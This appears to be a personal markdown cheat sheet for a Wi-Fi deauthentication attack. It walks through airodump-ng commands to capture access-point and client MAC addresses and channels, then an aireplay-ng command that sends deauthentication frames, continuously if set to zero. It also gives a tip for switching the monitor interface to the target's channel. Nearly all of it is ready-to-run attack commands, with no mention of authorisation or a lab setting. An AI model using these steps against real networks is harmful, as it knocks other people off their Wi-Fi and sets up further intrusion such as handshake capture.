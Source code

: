 # Deauthentication Attack
1.  Gather MAC addresses
Use airmon-ng to see live network traffic, remember to add `--band a` for 5GHz: 
```
sudo airodump-ng wlan1mon --band abg -w dump
```
- Note the APs BSSID + channel

### Monitor traffic
Once you've found your target, listen to it live with:
```
sudo airodump-ng wlan1mon --bssid XX:XX:XX:XX:XX:XX --band abg -c X
```
OR (try both - router likely broadcasts multiple BSSIDs, once for each GHz or if it multiplate bands(?))
```
sudo airodump-ng wlan1mon --essid "NetworkName" --band abg
```

---

### Deauth
The actual deauth - where `5` is the number of deauths, `0` would be to send them continously.
```
sudo aireplay-ng -0 5 -a ACCESSPOINT-BSSID -c CLIENT-BSSID wlan1mon
```

---

## -- NOTES
You have to be on the same channel as the AP you're deauthing, change it with:
```
iwconfig wlan1mon channel 149
```

---
### For list of attacks:
We want `0` here
```
sudo aireplay-ng
```
